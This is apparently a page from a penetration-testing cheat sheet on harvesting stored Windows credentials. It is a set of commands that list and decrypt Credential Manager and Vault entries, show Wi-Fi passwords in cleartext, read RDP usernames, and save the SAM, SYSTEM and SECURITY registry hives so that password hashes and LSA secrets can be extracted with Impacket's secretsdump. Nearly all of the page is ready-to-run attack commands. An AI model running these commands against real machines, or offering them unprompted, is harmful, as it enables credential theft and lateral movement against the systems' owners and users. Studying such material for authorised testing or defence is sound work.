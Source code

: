 # Stored Credentials

## <mark style="color:red;">Commands</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th>Command</th><th>Description</th></tr></thead><tbody><tr><td><mark style="color:yellow;"><code>cmdkey /list</code></mark></td><td>Lists credentials stored in Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>Get-StoredCredential</code></mark></td><td>Lists credentials stored in Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>Get-StoredCredential -Target "TargetName"</code></mark></td><td>Lists credentials for a specific target in Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>$cred = Get-StoredCredential -Target "TargetName"</code></mark></td><td>Retrieves credentials for a specific target from Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>$cred.GetNetworkCredential().Password</code></mark></td><td>Retrieves and decrypts the password for a specific target from Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>wmic path Win32_VaultCredential</code></mark></td><td>Lists credentials stored in Windows Vault using WMI (may not work on all systems).</td></tr><tr><td><mark style="color:yellow;"><code>reg.exe save hklm\sam C:\temp\sam.save</code></mark></td><td>Copies SAM. The SAM can be decrypted using secretsdump.py from Impacket.</td></tr><tr><td><mark style="color:yellow;"><code>reg.exe save hklm\system C:\temp\system.save</code></mark></td><td>Copies System Registry.</td></tr></tbody></table>

Lists credentials stored in Windows Vault using CIM-Instance (may not work on all systems):

{% code overflow="wrap" %}
```powershell
Get-CimInstance -Namespace "Root\Microsoft\Windows\Security\*" -ClassName Win32_VaultCredential
```
{% endcode %}

Lists usernames used for Remote Desktop connections from the registry using PowerShell:

```powershell
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Terminal Server Client\Default"
```

Decrypts and retrieves the username for a specific RDP server from the registry using PowerShell:

```powershell
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Terminal Server Client\Servers\ServerName" -Name "UsernameHint"
```

Lists Wi-Fi network profiles and their passwords using PowerShell (requires admin privileges):

{% code overflow="wrap" %}
```powershell
(netsh wlan show profiles) | ForEach-Object { $_; (netsh wlan show profile name="$($_.Trim())" key=clear) }
```
{% endcode %}

## <mark style="color:red;">LSA Secrets</mark>

LSA Secrets is used by the Local Security Authority (LSA) as storage, and oftentimes information such as auto-login service accounts or VPN credentials may be stored here:

To extract LSA secrets you need SYSTEM privs:

```powershell
reg.exe save hklm\security C:\temp\security.save
```

```powershell
reg.exe save hklm\system C:\temp\system.save
```

LSA Secrets is stored within the Security Registry.

We still need the Syskey from the System hive so we can decrypt the contents of LSA Secrets.

We can then extract the LSA Secrets using secretsdump from Impacket with the command:

```powershell
python3 secretsdump.py -security security.save -system system.save LOCAL
```

## <mark style="color:red;">Copy SAM and System Hive</mark>

To backup the SAM and SYSTEM hashes, we can use the following commands:

```powershell
reg save hklm\system C:\Users\backup\system.hive
```

```powershell
reg save hklm\sam C:\Users\backup\sam.hive
```
